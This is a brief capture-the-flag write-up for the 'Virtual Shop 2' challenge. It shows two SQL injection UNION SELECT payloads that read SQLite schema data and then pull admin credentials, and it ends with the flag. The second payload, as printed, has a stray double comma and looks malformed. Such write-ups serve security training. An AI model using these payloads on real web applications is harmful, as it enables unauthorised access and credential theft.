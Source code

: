 # Virtual Shop 2
## Writeup
So, this time we need to identify the table containing the users and their creds.

> Note that we are using sqlite3 in this chall.

To do so, send this payload:
```'+UNION+SELECT+sql,NULL,NULL,NULL+FROM +sqlite_master--```  
This way:  
![First payload](./image1.png)  
We can see this in the response, which represents the sql queries that have been used to build the tables:  
![First result](./image2.png)  
> Note: This way of getting results is not available in all SQL SGBDs.  

We see that there are two tables, and one of them is obviously the users one: `UsEErrSS1337987`  
And it has to columns:   
`usnme324, pw789`   
And then we can send an sql query to have the admin's credantials with:  
```'+UNION+SELECT+usnme324,,NULL,pw789,NULL+FROM+UsEErrSS1337987--```  
![Second payload](./image3.png)
And we get this result:
![Second result](./image4.png)


## Flag
```shellmates{iT_W4$_Not_TH4T_S3cuRE_4T_THe_END}```

